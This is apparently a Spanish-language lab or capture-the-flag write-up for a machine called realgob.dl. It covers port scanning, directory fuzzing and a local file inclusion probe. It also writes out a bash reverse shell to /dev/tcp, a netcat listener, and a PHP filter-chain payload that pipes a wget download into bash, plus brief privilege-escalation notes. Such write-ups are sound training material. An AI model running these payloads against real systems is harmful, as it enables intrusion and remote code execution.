



# Maquina Report

### 1.- Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

### 2.- Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80,3306 -vvv -Pn 172.17.0.2

### 3.- Fuzzing Web

agregaomos el realgob.dl al /etc/hosts

gobuster dir -t 200 -u http://realgob.dl/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html -r -b 403,404 2>/dev/null

### 4.- Vulnerabilidades

#### - LFI

wfuzz -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u "http://realgob.dl/about.php?FUZZ=../../../../../../../../../../../../../etc/passwd" --hh=4919

Intenté sacar el id_rsa, ver los logs y no se pudo, entonces utilicé la herramienta php_filter_chain_generator

a.- Creamos una reverse shell llamada rev con el siguiente contenido:

nano rev

bash -i >& /dev/tcp/172.17.0.1/443 0>&1 

b.- Iniciamos un servidor web con python en la carpeta donde creamos el rev

python3 -m http.server 80

c.- Nos ponemos en escucha con netcat por el puerto 443

nc -nlvp 443

d. En la carpeta php_filter_chain_generator, ejecutamos

python3 php_filter_chain_generator.py --chain '<?=`wget -O- 172.17.0.1/rev|bash`?>'

e.- Pegamos el wrapper  en la url de esta manera:

ejemplo:

http://realgob.dl/about.php?file=wrapper

f.- Tenemos acceso

#### - Bypass php - JPEG - cambiando el Content - Type

#### - SQLi

### 5.- Escalar privilegios

ejecute el comando: find / -name '*.git' 2>/dev/null

siendo el usuario adm entramos en /home/adm y abrimos el .bashrc

lo crakeamos con cyberchef

